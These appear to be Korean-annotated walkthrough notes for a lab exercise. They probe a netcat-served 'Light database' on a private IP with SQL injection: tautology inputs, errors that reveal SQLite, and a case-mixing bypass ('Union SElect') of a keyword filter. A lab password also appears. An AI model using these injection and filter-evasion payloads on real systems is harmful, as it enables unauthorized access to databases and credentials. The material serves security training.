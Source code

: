 nc 10.10.117.236 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: vYQ5ngPpw8AdUmL
Username not found.

PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 61:c5:06:f2:4a:20:5b:cd:09:4d:72:b0:a5:aa:ce:71 (RSA)
| 256 51:e0:5f:fa:81:64:d3:d9:26:24:16:ca:45:94:c2:00 (ECDSA)
|\_ 256 77:e1:36:3b:95:9d:e0:3e:0a:56:82:b2:9d:4c:fe:1a (ED25519)
Device type: general purpose

```bash
apt install seclists
apt install wordlists
```

nc 10.10.117.236 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: 1' OR '1' = '1
Password: tF8tj2o94WE4LKC
Please enter your username: 1' OR '1' = '1'

# 결과가 참일 시에만 제대로 반응

Please enter your username: 1' OR '1' = '2'  
Error: unrecognized token: "'2'' LIMIT 30"

```bash
# sqlite DB 추측
Error: unrecognized token: "'1'' LIMIT 30"
```

Please enter your username: --
For strange reasons I can't explain, any input containing /\*, -- or, %0b is not allowed :)

' UNION SELECT 1 '
Ahh there is a word in there I don't like :(
Please enter your username:

```bash
apt install rlwarp
rlwrap nc 10.10.117.236 1337
```

# SQLite 확인

rlwrap nc 10.10.117.236 1337
Welcome to the Light database!

# input 필터링 하는 것으로 보이나 대소문자를 섞으니 뚫리는 것 확인

Ahh there is a word in there I don't like :(
Please enter your username: ' Union SElect 1 '
Password: 1
Please enter your username: ' union select 1 '
Ahh there is a word in there I don't like :(
Please enter your username:

